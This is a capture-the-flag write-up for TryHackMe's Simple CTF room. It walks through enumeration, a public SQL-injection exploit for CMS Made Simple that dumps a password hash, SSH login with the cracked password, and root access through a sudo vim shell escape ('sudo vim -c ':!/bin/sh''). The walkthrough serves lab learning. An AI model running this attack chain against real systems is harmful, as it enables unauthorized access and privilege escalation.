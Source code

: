 # Simple CTF (THM)

- https://tryhackme.com/room/easyctf
- Feb 27, 2023
- easy

---

## Enumeration 

### Nmap

- ftp - vsftpd 3.0.3
  - Anonymous FTP login allowed
- http - Apache httpd 2.4.18 ((Ubuntu))
- ssh (2222) - OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)

### HTTP

- robots.txt

```
User-agent: *
Disallow: /
Disallow: /openemr-5_0_1_3
# End of "$Id: robots.txt 3494 2003-03-19 15:37:44Z mike $".
```

- directory brute forcing with (ffuf)

```
simple
```

- found page cms made simple. (version 2.2.8)

### Vuln

- Unauthenticated SQL Injection on CMS Made Simple <= 2.2.9

```sh
searchsploit cms made simple
searchsploit -m php/webapps/46635.py
python2 46635.py http://10.10.33.97/simple/
```

```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
```

- https://www.dcode.fr/md5-hash
- password - `secret`

## User Access

- with this credential enter ssh

```sh
ssh mitch@$IP -p 2222
```

- sudo -l

```
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

## Root Access

```sh
sudo vim -c ':!/bin/sh'
```
